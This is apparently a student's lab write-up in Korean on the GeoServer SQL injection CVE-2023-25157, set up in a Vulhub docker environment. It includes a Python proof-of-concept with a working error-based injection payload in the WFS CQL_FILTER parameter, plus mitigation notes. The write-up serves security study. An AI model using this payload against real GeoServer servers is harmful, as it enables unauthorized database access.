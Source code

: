 # geoserver CVE-2023-25157
> 화이트햇 3기 [30반] 김정우
---
github 링크 - https://github.com/custiya/kr-vulhub/tree/main/GeoServer/CVE-2023-25157

### 취약점 요약
* CVE-2023-25157는 GeoServer라는 오픈소스 지도 데이터 서비스 웹 애플리케이션에 대해 발생한 SQLi 취약점
* GeoServer 2.22.0 이하의 일부 버전에서 발생
* WFS(Web Feature Service) 요청의 CQL_FILTER라는 파라미터가 취약함
* 인증없이 해당 API에 접근 가능하다면 누구든 이용 가능

### 환경 구성
* docker compose up -d 커맨드로 테스트 환경 실행
* http://your-ip:8080/geoserver 로 페이지에 접속 가능
* 먼저 PostGIS 데이터 저장소가 포함된 기존 작업 공간발견해야 함
* Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 존재
    * 작업 공간 이름 : vulhub
    * 데이터 저장소 이름 : pg
    * 테이블 이름 : example
    * 사용한 속성 : name

### poc.py
* 위에서 서술했던 내용을 기반으로 sqli 구문을 만든 형태
* 해당 구문을 request모듈을 사용하여 서버에 전달
* strStartsWith(name,'x'') = true
    * x 뒤의 '를 하나 더 추가하며 sql 문법 파괴
* and 1=(SELECT CAST ((SELECT version()) AS integer))
    * version() 함수는 PostgreSQL의 현재 버전을 반환하는 함수이며, 문자열
    * CAST(... AS integer)는 강제로 정수로 변환하므로 오류가 발생
    * 서버는 에러 메시지를 반환하게 되어, Blind SQL Injection 테스트가 가능
```
# 대상 URL
url = "http://localhost:8080/geoserver/ows"

# CQL_FILTER에 들어갈 원본 인젝션 문자열 (URL 디코딩된 상태)
cql_filter = "strStartsWith(name,'x'') = true and 1=(SELECT CAST ((SELECT version()) AS integer)) -- ') = true"

# 파라미터 설정
params = {
    "service": "wfs",
    "version": "1.0.0",
    "request": "GetFeature",
    "typeName": "vulhub:example",
    "CQL_FILTER": cql_filter
}
```
### 결과
![Alt text](result.png)

### 정리
* 해당 poc를 통해 SQLi의 발생 여부를 알아 볼 수 있었다. 공격자는 SQL 쿼리를 통하여 시스템 정보들을 수집할 수 있을 것 같다.
* 해당 공격을 막기 위하여, 사용자 입력값 검증이 필요이 추가되어야 한다. 또한 입력 받은 SQL 구문을 바로 번역해서 사용하는 것이 아니라 별도로 저장하여 사용하여야 한다.
